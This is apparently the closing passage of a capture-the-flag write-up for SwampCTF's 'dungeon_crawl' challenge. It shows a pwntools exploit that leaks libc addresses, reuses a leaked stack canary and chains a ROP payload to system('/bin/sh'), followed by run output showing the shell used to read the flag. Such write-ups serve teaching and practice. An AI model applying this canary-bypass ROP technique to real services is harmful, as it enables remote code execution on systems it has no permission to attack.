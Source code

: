 ```
log.info ("puts_got    		=" + hex(puts_got))
log.info ("puts_offset    	=" + hex(puts_offset))
log.info ("puts_addr    	=" + hex(puts_addr))
log.info ("base_addr_libc    	=" + hex(base_addr_libc))
log.info ("system_addr    	=" + hex(system_addr))
log.info ("binsh_addr    	=" + hex(binsh_addr))

exploit = ""
exploit += "A" * 0x18
exploit += p64(stack_can)
exploit += "B" * 0x8
exploit += p64(poprdi_ret_addr)
exploit += p64(binsh_addr)
exploit += p64(system_addr)
r.recvuntil('[3 format]: ')
r.sendline('1')
r.recvuntil('extra challenge :)\n')
r.sendline(exploit)
r.interactive()
```

And the challenge is solved! :)
```
$ python exploit.py 
[+] Opening connection to chal1.swampctf.com on port 1337: Done
[*] '/home/solomonbstoner/Desktop/CTF unsorted and disorganised/SwampCTF/dungeon_crawl/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Passed Level 1.
[*] Passed Level 2.
[*] Passed Level 3.
[*] Passed Level 4.
[*] '/home/solomonbstoner/Desktop/CTF unsorted and disorganised/SwampCTF/dungeon_crawl/level5'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Stack canary : 0x36327c4ece0d200
[*] puts_got            =0x601210
[*] puts_offset        =0x6f690
[*] puts_addr        =0x7efe76835690
[*] base_addr_libc        =0x7efe767c6000
[*] system_addr        =0x7efe7680b390
[*] binsh_addr        =0x7efe76952d57
[*] Switching to interactive mode
$ whoami
ctf
$ ls
flag
level1
level2
level3
level4
level5
$ cat flag
flag{I_SurV1v3d_th3_f1n4l_b0ss}
```

END